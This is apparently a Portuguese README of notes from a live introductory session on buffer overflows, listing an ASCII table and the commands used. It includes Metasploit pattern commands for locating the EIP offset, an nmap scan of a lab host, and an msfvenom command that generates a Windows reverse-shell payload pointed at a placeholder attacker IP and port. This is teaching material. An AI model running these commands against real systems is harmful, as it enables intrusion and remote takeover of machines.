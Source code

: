 # Live - Buffer Overflow, uma introdução ao assunto

## Tabela ASCII
| *Char  Dec  Oct  Hex   Linux*
| *(nl)   10 0012  x0a   \n*
| *(cr)   13 0015  x0d   \r*
| *A      65 0101  x41*
| *B      66 0102  x42*
| *C      67 0103  x43*

## Comandos utilizados

**Gerando texto único para identificação da posição do EIP**
| /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

**Checando a posição (offset) do EIP**
| /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438

**Conectando no rdesktop**
| rdesktop -u usuario -p senha -g 65% -x m endereco

**Buscando informações do serviço**
| nmap -Pn -p21 -A 192.168.15.150

**Gerando payload do shell reverso**
| msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python

